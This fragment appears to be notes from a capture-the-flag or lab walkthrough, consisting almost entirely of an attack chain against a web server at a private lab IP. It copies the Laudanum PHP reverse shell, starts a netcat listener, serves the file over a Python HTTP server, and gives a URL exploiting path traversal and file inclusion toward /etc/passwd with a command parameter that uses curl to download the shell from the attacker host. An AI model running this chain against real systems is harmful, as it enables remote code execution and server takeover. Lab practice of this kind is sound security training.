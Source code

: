 __`/usr/share/laudanum/php/php-reverse-shell.php` and rename it as `shell.php`__
- __`mv /usr/share/laudanum/php/php-reverse-shell.php shell.php`__
  - > __Change the ip and port__
    > __`nc -lvnp 1234`__


- __`python3 -m http.server 8080`__

```url
http://10.10.96.138/?view=php://filter/resource=./dog/../../../../../../../ect/passwd=&cmd=curl -o shell.php 10.10.44.229:8000/shell.php
```
